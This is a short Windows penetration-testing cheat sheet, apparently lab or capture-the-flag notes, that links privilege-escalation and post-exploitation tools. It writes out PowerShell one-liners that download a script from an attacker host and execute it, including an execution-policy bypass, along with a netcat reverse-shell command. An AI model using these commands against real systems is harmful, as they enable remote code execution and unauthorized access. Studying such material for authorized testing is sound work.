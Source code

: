 ## Windows

living off the land binaries: [LOLBAS](https://lolbas-project.github.io/)

### Enumeration

Windows Privilege Escalation Enumeration Script: [WinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS)

Little bit o' everything: [PowerSploit](https://github.com/PowerShellMafia/PowerSploit/)

### Unsorted

Powershell full path: `C:\Windows\SysNative\WindowsPowershell\v1.0\powershell.exe`

Powershell "wget" and execute remote code:

```text
powershell "Invoke-Expression(New-Object Net.Webclient).downloadString('http://<ip>:<port>/<filename>')"
```

Powershell Script Execution Bypass: \[can embed in php too!\]:

```text
echo IEX(New-Object Net.WebClient).DownloadString(http://<ip:port/filename.ps1>) | powershell -noprofile -
```

Powershell reverse shell and exploit scripts: nishang [Ippsec:HacktheBox - Optimum](https://www.youtube.com/watch?v=kWTnVBIpNsE)

Netcat reverse shell \(after uploading the binary!\): `nc64.exe -e cmd <ip port>`

tools: [https://specterops.io/resources/research-and-development](https://specterops.io/resources/research-and-development)

easy windows shell: unicorn.py [trustedsec/unicorn](https://github.com/trustedsec/unicorn) [HackTheBox - Arctic](https://www.youtube.com/watch?v=e9lVyFH7-4o)

system information: `sysinfo`

Get user id: `getuid`

Powershell privilege escalation:

* [PowerUp.ps1](https://github.com/PowerShellEmpire/PowerTools/blob/master/PowerUp/PowerUp.ps1) from PowerShellEmpire
* Sherlock.ps1

[fuzzbunch](https://github.com/peterpt/fuzzbunch): exploit tool similar to metasploit

check what updates are installed: `type WindowsUpdate.log`

net use share from linux \[like SimpleHTTPServer for Samba\]: `impacket-smbserver <sharename> '<dir_to_share>'`
